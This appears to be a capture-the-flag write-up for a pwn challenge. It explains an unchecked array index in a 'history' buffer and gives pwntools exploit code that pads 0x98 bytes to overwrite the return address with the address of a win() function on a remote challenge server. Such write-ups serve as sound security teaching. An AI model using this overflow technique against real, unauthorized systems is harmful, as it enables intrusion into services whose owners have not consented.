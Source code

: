 There is a fixed size array of signed 64-bit integers on the stack, called `history`. Option 2 allows us to write to that array, but doesn’t check that `history_idx` is within bounds (i.e. less than `HISTORY_SZ`), so that gives us a buffer overflow that we can potentially use to control the return address to redirect execution to our `win()` function. 

### Buffer overflow

First we set up our pwntools template exploit script with this command

```
pwn template --host 34.143.157.242 --port 8072 ./checksum.bin > soln.py
```

Then we define this helper function to write a numerical value into the `history` array

```python
def write_bytes(uint_value):
    io.recvuntil(b'opt >> ')
    io.sendline(b'2')

    io.recvuntil(b'x >> ')
    io.sendline(f'{uint_value}'.encode())
```

Then we try to do a classic buffer overflow attack. We go into IDA to see that the `history` buffer is at `rbp-0x90`, which means that we need 0x98 bytes of padding before we can reach the return address

![Figure 1](./images/figure1.png)

Hence, we write our buffer overflow code accordingly. Note that the process will return from `main()` when we give `1337` as an input, so we do that at the end.

```python
io = start()

win_addr = exe.symbols['win']

for _ in range((0x98 // 8)):
    write_bytes(0x4141414141414141)

write_bytes(win_addr)
write_bytes(1337)

io.interactive()
```
